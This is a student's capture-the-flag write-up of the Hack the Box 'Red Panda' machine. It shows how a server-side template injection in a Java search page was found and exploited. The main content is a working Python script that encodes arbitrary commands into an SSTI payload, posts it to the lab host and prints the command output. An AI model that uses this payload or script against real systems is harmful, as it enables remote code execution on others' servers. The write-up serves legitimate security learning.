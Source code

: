 ```yaml
---
layout: single
title: Hack the Box - Red Panda
---
```


## SSTI - Red Panda writeup

As an exercise for the red-teaming specialisation, our teacher encouraged us to start using Hack the Box environment to learn hacking in practice.
Because I do not have much CTF and hands-on hacking experience, I have decided to start with an 'easy' machine - Red Panda.

| ![Redpanda main page](../../assets/img/redpanda/redpanda.png) |
| Redpanda main page |

The website displays a search bar and some text. I tried searching different words, but the searched returned none. However, when I searched for an empty phrase, this
was the result:

| ![Greg panda](../../assets/img/redpanda/greg.png) |
| Greg panda |

I tried sending multiple SQLI payloads, but the service seemed immune to database injection attacks. A colleague gave me a tip to try using Server Side Template Injecton.
Because I have never heard of this technique, I had to spend some time on learning it and adjusting it to the service. Finally, I found the proper characters to enclose
my payload with - _*{ malicious code }_. I tried getting all environment variables from the host.

| ![Server's environment variables](../../assets/img/redpanda/get_env.png) |
| Server's environment variables |

I tried testing multiple payloads from _[PayloadsAlltheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#java)_,
and it turned out I can only execute commands on the host OS when encoding them into characters from integers. Therefore, I have decided to create a script which will
allow me to encode commands and send them to the vulnerable endpoint.

```python
import sys
import requests
from bs4 import BeautifulSoup as bs

# prepare payload
first = "*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec("
last = ").getInputStream())}"
mid = ""
command = sys.argv[1]
for i, c in enumerate(command):
    if i == 0:
        mid += f"T(java.lang.Character).toString({ord(c)})"
    else:
        mid += f".concat(T(java.lang.Character).toString({ord(c)}))"
payload = first + mid + last

# send post request to /search
ip = "10.10.11.170"
endpoint = "search"
res = requests.post(f"http://{ip}:8080/{endpoint}", data={'name': payload} )
soup = bs(res.content, "html.parser")
searched = soup.find("h2", {"class": "searched"})
print(searched.get_text())
```

The script worked and I managed to gain user access to the system. I was able to read the flag in user's home directory.

| ![User flag](../../assets/img/redpanda/user.png) |
| User flag |
